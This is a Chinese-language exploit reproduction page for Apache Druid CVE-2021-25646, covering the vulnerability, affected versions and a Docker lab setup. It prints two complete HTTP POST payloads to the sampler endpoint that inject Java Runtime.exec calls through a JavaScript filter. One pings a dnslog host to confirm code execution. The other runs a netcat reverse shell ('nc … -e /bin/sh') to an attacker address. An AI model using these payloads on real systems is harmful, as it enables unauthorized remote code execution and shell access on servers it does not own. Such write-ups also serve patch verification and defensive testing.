






Apache Druid 远程代码执行漏洞 CVE-2021-25646¶
漏洞描述¶
Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。 Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。 Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。
参考链接：
- https://github.com/apache/druid/issues/2434
- https://forum.ywhack.com/thread-115083-1-1.html
- https://druid.apache.org/docs/latest/operations/api-reference.html#broker
- https://lists.apache.org/thread.html/r20e0c3b10ae2c05a3aad40f1476713c45bdefc32c920b9986b941d8f@%3Cannounce.apache.org%3E
- https://www.o2oxy.cn/3090.html
漏洞影响¶
Apache Druid < 0.20.1
环境搭建¶
这里使用Docker来搭建环境

Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip
下载之后进入目录 distribution\docker
执行命令编译 docker-compose up -d

访问 http://xxx.xxx.xxx.xxx:8888 正常就行了

漏洞复现¶
漏洞原理: https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw
POC请求包
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 995
Connection: close
{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping xxxxx.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}

- 注意请求中这个位置改为你的dnslog平台地址
- java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')
发送请求即可命令执行

- 可能大部分都是docker搭建，而里面大部分命令是不存在的，但是发现docker里面居然默认是有 NC 命令的，那我们就可以用nc反弹一个shell了
反弹shell请求包
POST /druid/indexer/v1/sampler HTTP/1.1
Host: xxx.xxx.xxx.xxx:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 1008
Connection: close
{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc xxx.xxx.xxx.xxx 9999 -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
发送请求包就可以得到一个交互式shell
